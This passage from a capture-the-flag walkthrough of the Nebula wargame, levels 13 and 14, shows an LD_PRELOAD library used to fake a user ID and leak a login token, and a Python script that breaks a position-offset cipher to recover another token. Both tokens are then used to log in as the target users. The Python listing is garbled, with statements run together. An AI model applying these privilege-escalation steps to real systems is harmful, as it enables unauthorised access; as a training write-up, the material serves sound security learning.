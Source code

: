 and compile it as a shared library which we then preload (see `man ld.so` for more info on this). We need to copy the `flag13` binary to our local directory because it needs to be run as the same user level as the library we are trying to preload.

```text
level13@nebula:/tmp$ gcc -shared -fPIC fake.c -o fetgetuid.so
level13@nebula:/tmp$ cp ~flag13/flag13 .
level13@nebula:/tmp$ export LD_PRELOAD=/tmp/fetgetuid.so
level13@nebula:/tmp$ ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
level13@nebula:/tmp$ ssh flag13@localhost
flag13@localhost's password: b705702b-76a8-42b0-8844-3adabbe5ac58
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## Level 14

> This program resides in /home/flag14/flag14 . It encrypts input and writes it to standard output. An encrypted token file is also in that home directory, decrypt it :)

The contents of `token` were encrypted using the `flag14` binary in `~flag14`. If you run it you can see how it works. Let's enter something and see if we can work out how it works. I created a file with the contents `abcdefghijklmno` in `/tmp/test`

```C
level14@nebula:/home/flag14$ cat /tmp/test | ./flag14 -e
```

> <acegikmoqsuwy%7B%7Dlevel14@nebula>:/home/flag14$

So luckily it's fairly straightforward, it offsets each letter by the value of its position in the string. A quick Python script can reverse the process.

```python
import sys

def decrypt(input):
  out = '' for i, c in enumerate(input): dec = ord(c) - i out += chr(dec)

  print out

if __name__ == '__main__':
  input = sys.argv[1] print input decrypt(input)
```

And now pipe the token into it

```
level14@nebula:/home/flag14$ python /tmp/decrypt.py 857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
8457c118-887c-4e40-a5a6-33a25353165

level14@nebula:/home/flag14$ ssh flag14@localhost

flag14@localhost's password: 8457c118-887c-4e40-a5a6-33a25353165

flag14@nebula:~$ getflag
You have successfully executed getflag on a target account
```
